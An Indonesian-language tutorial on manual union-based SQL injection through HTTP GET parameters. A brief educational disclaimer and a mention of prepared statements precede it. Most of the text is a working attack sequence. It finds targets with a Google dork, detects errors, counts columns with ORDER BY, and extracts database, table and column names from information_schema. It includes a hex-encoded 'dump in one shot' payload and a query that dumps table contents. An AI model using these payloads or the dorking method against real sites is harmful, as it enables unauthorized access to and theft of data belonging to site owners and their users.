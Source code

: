 
# Union SQL Injection Manual Sederhana: Metode GET HTTP
R&D ICWR 2024-01-18
Disclaimer:

Disclaimer ini disengaja ditempatkan di bagian atas agar dibaca terlebih dahulu. Tujuan dari pembelajaran berikut adalah untuk keperluan pembelajaran dan peningkatan keamanan pada website saja. Tutorial ini tidak dimaksudkan untuk digunakan dalam aktivitas ilegal seperti dumping database. Jika ada pihak yang menggunakan tutorial ini untuk aktivitas ilegal, hal tersebut bukanlah tanggung jawab kami.

SQL injection merupakan teknik serangan keamanan yang memanfaatkan celah pada sistem pengolahan query SQL pada aplikasi web. Pada serangan ini, penyerang menginjeksikan perintah SQL berbahaya ke dalam input aplikasi. Jika aplikasi tidak melakukan validasi atau penyaringan input dengan benar, perintah SQL tersebut dapat dieksekusi oleh database. Salah satu bentuk umum serangan SQL injection terjadi melalui metode GET dalam protokol HTTP, di mana parameter URL dapat dimanipulasi untuk menyisipkan perintah SQL yang membahayakan integritas data atau memungkinkan akses yang tidak sah.

Sebagai contoh, URL yang rentan terhadap SQL injection pada metode GET adalah seperti: http://contoh.com/login.php?username=admin' OR '1'='1' -- &password=abc. Dalam contoh ini, penyerang mencoba menyisipkan perintah SQL yang selalu benar, sehingga mengakibatkan akses ke seluruh data dari tabel yang bersangkutan. Untuk menjaga keamanan aplikasi dari serangan SQL injection, sangat penting untuk memvalidasi dan membersihkan input, serta menggunakan teknik parameterized queries atau prepared statements dalam pengolahan query SQL. Pengujian keamanan secara berkala juga diperlukan untuk memastikan tingkat keamanan aplikasi tetap terjaga.

Pertama-tama, dalam melakukan penetrasi keamanan pada website, fokus utama adalah mencari target yang menggunakan parameter GET untuk menampilkan data. Pendekatan yang umum dilakukan adalah dengan memanfaatkan query Dork pada mesin pencari Google menggunakan sintaks inurl:"*.php?id=.

Contohnya pada kolom search Google sebagai berikut:

inurl:"*.php?id="

Setelah berhasil menemukan website target, seperti contoh http://contoh.com/get_name?id=1, langkah selanjutnya adalah melakukan eksploitasi untuk mengidentifikasi potensi kerentanannya terhadap serangan SQL Injection. Pendekatan ini dilakukan dengan memeriksa respons dari server terhadap manipulasi parameter GET.

Untuk menguji kerentanan, tambahkan karakter ' atau " pada bagian paling belakang URL, seperti:

http://contoh.com/get_name?id=1'

atau

http://contoh.com/get_name?id=1"

Jika website merespon dengan error seperti Warning: mysqli_num_rows() expects, kemungkinan besar website tersebut rentan terhadap serangan SQL Injection. Kesalahan ini menunjukkan bahwa input yang diberikan tidak diproses atau disaring dengan benar sebelum dieksekusi oleh database.

Setelah mengidentifikasi kerentanan, langkah selanjutnya adalah menentukan jenis database yang digunakan oleh website dan menyesuaikan teknik serangan. Ini dapat dilakukan dengan menambahkan karakter balancing pada URL, seperti:

    -- untuk MySQL Linux Style
    --+ untuk MySQL Windows Style
    # hash URL Encode while Use
    --+- SQL Comment
    ;%00 Null Byte
    Backtick

Contoh:

http://contoh.com/get_name?id=1' --+-

Langkah ini dilakukan untuk mengidentifikasi apakah teknik serangan SQL Injection yang digunakan sesuai dengan karakteristik server dan database yang dimiliki oleh website target.

Setelah mengidentifikasi website yang vulner, penyerang dapat menambahkan karakter balancing seperti -- (untuk MySQL Linux Style), --+ (untuk MySQL Windows Style), # ( untuk Hash URL Encode while Use), --+- (SQL Comment), ;%00 (Null Byte), atau Backtick untuk memperoleh respons yang diinginkan.

Langkah selanjutnya dalam proses eksploitasi melibatkan penyuntikan query dengan tujuan mengetahui jumlah kolom pada tabel database. Contohnya, penyerang dapat menggunakan pendekatan berurutan pada parameter GET, seperti:

    http://contoh.com/get_name?id=1' order by 1--+- -> Tidak ada error
    http://contoh.com/get_name?id=1' order by 2--+- -> Tidak ada error
    http://contoh.com/get_name?id=1' order by 3--+- -> Tidak ada error
    http://contoh.com/get_name?id=1' order by 4--+- -> Terjadi error, menandakan jumlah kolom pada tabel database adalah 3

Setelah mendapatkan informasi tentang jumlah kolom, penyerang dapat melanjutkan dengan mengidentifikasi letak kolom pada tabel database. Langkah ini dapat dilakukan dengan menggunakan query seperti:

    http://contoh.com/get_name?id=1' union select 1,2,3--+-

Website akan menampilkan angka 1, 2, dan 3 sesuai dengan posisi kolom dalam tabel database. Informasi ini nantinya digunakan untuk menyusun query akhir yang akan dieksekusi pada posisi yang diinginkan. Sebagai contoh, untuk menampilkan nama database, penyerang dapat menggunakan query seperti:

    http://contoh.com/get_name?id=-1' union select 1,database(),3--+-

Pada tahap selanjutnya eksploitasi SQL Injection setelah mendapatkan informasi ini, penyerang dapat melangkah lebih jauh dengan mengekstrak nama-nama tabel pada database target. Dengan menggunakan query berikut, penyerang dapat mengumpulkan nama-nama tabel tersebut:

    http://contoh.com/get_name?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+-

Selanjutnya, setelah berhasil mendapatkan daftar nama-nama tabel, penyerang melanjutkan dengan mengekstrak isi kolom pada tabel-tabel tersebut. Dalam tahapan ini, nama tabel diubah menjadi format heksadesimal yang diawali dengan 0x:

    http://contoh.com/get_name?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x6e616d615f746162656c --+-

Atau dengan menggunakan metode Dump in One Shot SQL Injection:

    http://contoh.com/get_name?id=-1' union select 1,concat(0x3c623e44756d7020696e204f6e652053686f743c2f623e3c62723e,version(),0x3c62723e,user(),0x3c62723e,database(),0x3c62723e,@c:=0x00,if((select count(*) from information_schema.columns where table_schema not like 0x696e666f726d6174696f6e5f736368656d61 and @c:=concat(@c,0x3c62723e,table_name,0x2e,column_name)),0x00,0x00),@c),3--+-'

Dengan mendapatkan nama-nama kolom dari tabel, langkah terakhir adalah menampilkan isi dari kolom-kolom tersebut. Contoh query untuk menampilkan isi kolom pada tabel yang memiliki 3 kolom seperti id, judul, dan detail adalah:

    http://contoh.com/get_name?id=-1' union select 1,group_concat(id,judul,detail),3 from nama_tabel --+-

Melalui serangkaian langkah kompleks ini, penyerang dapat berhasil mengeksploitasi dan memperoleh akses tidak sah ke dalam database suatu aplikasi. Penting untuk diingat bahwa praktek-praktek ini hanya dapat digunakan untuk pembelajaran dan pengujian keamanan dengan izin yang sah, dengan tujuan untuk meningkatkan keamanan aplikasi. Etika dan tanggung jawab dalam penggunaan teknik-teknik ini sangat ditekankan untuk mencegah penyalahgunaan.

Penulis: Afrizal F.A

Referensi:

    https://portswigger.net/web-security/sql-injection/union-attacks
    https://exploit.linuxsec.org/tutorial-sql-injection-manual/
    https://exploit.linuxsec.org/payload-dump-one-shot-sql-injection/
    https://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html
